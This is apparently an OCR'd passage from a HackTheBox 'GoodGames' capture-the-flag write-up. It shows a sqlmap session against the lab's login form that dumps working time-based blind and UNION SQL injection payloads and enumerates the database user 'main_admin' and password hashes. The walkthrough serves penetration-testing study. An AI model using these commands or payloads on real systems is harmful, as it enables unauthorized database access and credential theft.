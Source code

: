 [*] ending @ 12:45:27 /2022-12-22/

```

Checking user privileges; and if we can obtain users and passwords
```
[ 12:46PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]                                                                                                                       
 $ sqlmap -u "http://goodgames.htb/login" --data "email=*&password=*" --privileges --users --passwords                                                                               
        ___                                                                                                                                                                          
       __H__                                                                                                                                                                         
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:49:56 /2022-12-22/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[12:49:58] [INFO] resuming back-end DBMS 'mysql' 
[12:49:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&passwor
d=
---
[12:49:59] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:49:59] [INFO] fetching database users
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
database management system users [1]:
[*] 'main_admin'@'localhost'

[12:50:01] [INFO] fetching database users password hashes
[12:50:02] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[12:50:03] [WARNING] the SQL query provided does not return any output
[12:50:03] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[12:50:03] [WARNING] the SQL query provided does not return any output
[12:50:03] [INFO] fetching database users
[12:50:03] [INFO] fetching number of password hashes for user 'main_admin'
[12:50:03] [WARNING] time-based comparison requires larger statistical model, please wait.................. (done)                                                                  
[12:50:04] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
